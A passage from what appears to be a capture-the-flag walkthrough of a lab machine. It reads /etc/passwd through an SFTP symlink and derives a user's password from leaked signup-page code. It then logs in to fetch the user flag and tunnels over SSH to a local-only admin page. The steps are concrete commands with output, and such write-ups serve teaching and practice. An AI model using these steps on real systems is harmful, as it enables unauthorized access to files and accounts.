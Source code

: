 I can grab the `/etc/passwd` file by symlinking to it directly:

```
sftp> ln -s /etc/passwd passwd
```

The file contains another user with the `127.0.0.1` IP address:

```
ots-yODc2NGQ:x:999:999:127.0.0.1:/home/web/ots-yODc2NGQ:/bin/false
ots-4NzkzMDE:x:1001:1001:10.10.14.23:/home/web/ots-4NzkzMDE:/bin/false
```

I have the source code of the signup page so I can find what the password is for this user:

```
php > echo "ots-" . substr(str_replace('=','',base64_encode(substr(md5("127.0.0.1"),0,8))),3);
ots-yODc2NGQ
php > echo substr(md5("127.0.0.1"),0,8);
f528764d
```

Password: `f528764d`

I can SFTP in with that account and get the user flag:

```
# sftp ots-yODc2NGQ@10.10.10.133
ots-yODc2NGQ@10.10.10.133's password:
Connected to ots-yODc2NGQ@10.10.10.133.
sftp> ls
public_html  user.txt
sftp> get user.txt
Fetching /user.txt to user.txt
```

```
# cat user.txt
93a4ce...
```

### Pivoting to the local administration page

I can set up SSH tunneling to get access to 60080 on the server. But I need to pass the `-N` flag to SSH so it does try to spawn a shell.

```
# ssh -L 60080:127.0.0.1:60080 -N ots-yODc2NGQ@10.10.10.133
ots-yODc2NGQ@10.10.10.133's password:
```

I can now access the administration web page through my tunnel at `127.0.0.1:60080`
